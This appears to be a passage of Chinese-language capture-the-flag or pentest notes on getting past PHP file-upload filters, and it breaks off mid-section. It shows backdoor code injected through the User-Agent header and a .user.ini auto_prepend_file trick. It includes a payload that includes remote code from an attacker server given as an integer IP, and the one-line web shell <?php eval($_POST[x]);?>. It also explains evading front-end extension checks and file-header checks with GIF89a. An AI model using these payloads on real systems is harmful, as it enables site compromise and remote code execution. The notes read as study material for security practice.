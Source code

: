 在UA信息里面写入后门代码，随便写一个地址，访问

发现有一个没信息，因为后门代码被执行了：

![image-20250822214851807](assets/image-20250822214851807.png)

![image-20250822214945612](assets/image-20250822214945612.png)

这样访问一下

![image-20250822215011038](assets/image-20250822215011038.png)

**.()[]都被过滤**

`.user.ini`:
Auto_prepend_file=png （这个png只是个文件名，换成xxx也可以）
Fliename="png"
GIF89a
`<?=include'http://794750069'?>`
这一串数字是ip转int转来的，在自己服务器上搭建一个网页，访问这个ip就会访问到
Index.php   index.php中写有后门代码`<?php eval($_POST[x]);?>`









## 前端JS校验

通过前端JS只限制jpg、png可以，那么可以先改名为png后缀，抓住包之后改成php后缀

## 文件头检测

通过检测文件头来判断是什么文件

比如只能上传gif，网站会检测文件头是不是GIF89A

上传png，抓个包 修改：

